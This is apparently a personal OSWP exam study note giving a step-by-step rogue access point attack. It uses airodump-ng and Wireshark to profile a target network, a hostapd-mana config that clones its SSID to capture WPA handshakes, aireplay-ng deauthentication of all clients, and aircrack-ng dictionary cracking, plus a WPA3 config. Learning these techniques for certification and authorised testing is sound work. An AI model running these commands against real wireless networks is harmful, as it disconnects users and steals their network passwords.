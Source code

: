 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/f-rouge-a-ps/","updated":"2024-01-05T11:37:20.976+01:00"}
---
```


---------
### Walkthrough:
1. Set up capture:
```
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```
2. Open capture file in Wireshark
3. Filter for beacons:
```
wlan.fc.type_subtype == 0x08 wlan.ssid == "<name>"
```
4. Open "Tagged parameters"
5. Create a .conf file for hostapd-mana according to data:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211n=1
wpa=3 #3 for both wpa/wpa2, 2 for wpa2 only, 1 for wpa only
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP #wpa encryption setting
rsn_pairwise=TKIP CCMP #wpa2 encryption setting
mana_wpaout=<outfile>.hccapx
```
6. Start the AP:
```
sudo hostapd-mana file.conf
```
7. If necessary deauth all clients with a new wireless card:
```
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```
8. Crack the hashes with hashcat or aircrack:
```
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
```

------
### WPA-3 conf:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211w=1
wpa=2
wpa_key_mgmt=WPA-PSK-SHA256
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=<outfile>.hccapx
```

### Alternative: Probe requests
Wireshark filter:
```
wlan.fc.type_subtype == 4 or wlan.fc.type_subtype == 5
```